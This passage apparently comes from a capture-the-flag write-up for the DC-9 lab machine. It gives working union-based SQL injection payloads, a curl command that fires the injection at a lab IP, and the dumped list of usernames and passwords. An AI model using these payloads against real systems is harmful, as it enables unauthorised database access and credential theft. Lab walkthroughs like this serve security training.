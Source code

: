 We have found the table **UserDetails**, let's list their respective columns.

``` bash
Mary' and 1=2 union select column_name,null,null,null,null,null from information_schema.columns where table_schema='users' and table_name='UserDetails' #
```

![](/assets/images/DC-9/screenshot-11.png)

In the output we see two important fields username and password, in the same way we intercept the request with burp and then create the request with curl and filter the data with regular expressions.

``` bash
Mary' and 1=2 union select concat(username,0x3a,password),null,null,null,null,null from users.UserDetails #
```

![](/assets/images/DC-9/screenshot-12.png)

``` bash
root@kali:~$ curl -s -X POST "http://192.168.179.128/results.php" --data "search=Mary%27++and+1%3D2+union+select+concat%28username%2C0x3a%2Cpassword%29%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull+from+users.UserDetails+%23" | grep -oP "\w*:\S[^<]*" > UserDetails
root@kali:~$ cat UserDetails
marym:3kfs86sfd
julied:468sfdfsd2
fredf:4sfd87sfd1
barneyr:RocksOff
tomc:TC&TheBoyz
jerrym:B8m#48sd
wilmaf:Pebbles
bettyr:BamBam01
chandlerb:UrAG0D!
joeyt:Passw0rd
rachelg:yN72#dsd
rossg:ILoveRachel
monicag:3248dsds7s
phoebeb:smellycats
scoots:YR3BVxxxw87
janitor:Ilovepeepee
janitor2:Hawaii-Five-0
```
